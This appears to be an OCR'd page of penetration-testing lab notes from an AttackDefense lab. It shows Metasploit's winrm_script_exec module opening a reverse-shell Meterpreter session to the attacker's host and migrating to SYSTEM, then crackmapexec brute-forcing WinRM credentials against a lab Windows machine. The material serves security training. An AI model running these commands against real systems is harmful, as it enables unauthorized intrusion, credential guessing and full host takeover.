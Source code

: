 ```bash

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/winrm/winrm_script_exec) > set RHOSTS 10.4.19.50
RHOSTS => 10.4.19.50
msf5 exploit(windows/winrm/winrm_script_exec) > set USERNAME administrator
USERNAME => administrator
msf5 exploit(windows/winrm/winrm_script_exec) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 exploit(windows/winrm/winrm_script_exec) > set FORCE_VBS true
FORCE_VBS => true
msf5 exploit(windows/winrm/winrm_script_exec) > run

[*] Started reverse TCP handler on 10.10.23.3:4444 
[*] User selected the FORCE_VBS option
[*] Sending stage (176195 bytes) to 10.4.19.50
[*] Meterpreter session 1 opened (10.10.23.3:4444 -> 10.4.19.50:49897) at 2024-01-15 22:01:46 +0530
[*] Session ID 1 (10.10.23.3:4444 -> 10.4.19.50:49897) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is knbph.exe (4800) as: SERVER\Administrator
[*] Session is Admin but not System.
[*] Will attempt to migrate to specified System level process.
[-] Could not migrate to services.exe.
[-] Could not migrate to wininit.exe.
[*] Trying svchost.exe (892)
[+] Successfully migrated to svchost.exe (892) as: NT AUTHORITY\SYSTEM
[*] nil
[*] Command Stager progress - 100.00% done (101936/101936 bytes)

meterpreter > pwd
C:\Windows\system32
```

<br />

**bruteforce winRM credentials using crackmapexec**

```bash
root@attackdefense:~# crackmapexec winrm 10.4.19.50 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
WINRM       10.4.19.50      5985   NONE             [*] http://10.4.19.50:5985/wsman
WINRM       10.4.19.50      5985   NONE             [-] None\administrator:admin "Failed to authenticate the user administrator with ntlm"

WINRM       10.4.19.50      5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)

```
